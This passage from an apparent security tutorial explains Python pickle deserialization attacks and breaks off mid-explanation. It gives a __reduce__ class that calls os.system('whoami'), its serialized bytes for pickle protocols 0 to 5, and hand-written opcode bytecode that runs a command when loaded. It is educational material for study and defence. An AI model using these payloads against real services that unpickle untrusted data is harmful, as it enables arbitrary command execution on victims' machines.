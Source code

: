 As mentioned above, there are multiple versions of `opcode`. When serializing, you can select the version of `opcode` by `protocol=num`. The specified version must be less than or equal to `5`.

```python
import os
import pickle

class Demo():
    def __init__(self, name='h3rmesk1t'):
        self.name = name
    
    def __reduce__(self):
        return (os.system, ('whoami',))


demo = Demo()
for i in range(6):
    print('[+] pickle v{}: {}'.format(str(i), pickle.dumps(demo, protocol=i)))
```

```python
[+] pickle v0: b'cposix\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
[+] pickle v1: b'cposix\nq\x00(X\x06\x00\x00\x00whoamiq\x01tq\x02Rq\x03.'
[+] pickle v2: b'\x80\x02cposix\nq\x00X\x06
\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v3: b'\x80\x03cposix\nq\x00X\x06\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v4: b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
[+] pickle v5: b'\x80\x05\x95!\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
```

<div align=center><img src="./images/3.png"></div>

Basic mode:

```python
c<module>
<callable>
(<args>
tR.
```

Here is a short bytecode to demonstrate the utilization process:

```python
cos
system
(S'whoami'
tR.
```

<div align=center><img src="./images/4.png"></div>

The bytecode above is actually `__import__('os').system(*('whoami',))`. Let's decompose and analyze it below:
